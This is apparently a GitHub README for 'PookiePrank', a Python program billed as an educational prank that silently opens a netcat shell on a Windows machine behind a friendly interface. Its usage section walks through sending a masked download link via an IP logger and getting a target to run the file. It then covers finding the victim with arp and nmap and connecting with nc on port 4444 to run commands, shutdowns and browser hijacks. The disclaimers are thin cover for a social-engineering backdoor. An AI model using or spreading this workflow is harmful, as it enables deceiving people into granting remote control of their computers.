 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


PLEASE READ THE FULL DOCUMENTATION FOR THE BETTER UNDERSTANDING OF THE PROJECT.
---

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- A educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- This is the command that triggers the backdoor in our Window machine (Runs automatically on running the Python file).
   ```bash
   nc64 -lvp 4444
   ```
- The command attacker needs to run in their machines.
  - For Linux
    ```bash
    nc <ip_address_of _the_target_machine> 4444
  
  - For Windows
    ```bash
    nc64 <ip_address_of _the_target_machine> 4444
   - For windows users, you can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.

NOTE:

- You will need to know the target ip address beforehand. You can either use IP Loggers or do an `arp` scan over the local network.

- If you are on a virtual machine, perform an arp scan on your host machine..

- For Wondows
  ```bash
  arp -a

- For Linux
  ```bash
  sudo arp-scan --localhost
  
This will list all the IP addresses in a network and we have to find our target from this which can simply be done by an nmap scan

```bash
nmap -p 4444 <ip_address>
```



6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy.

— *PookieSec Ops Out.*
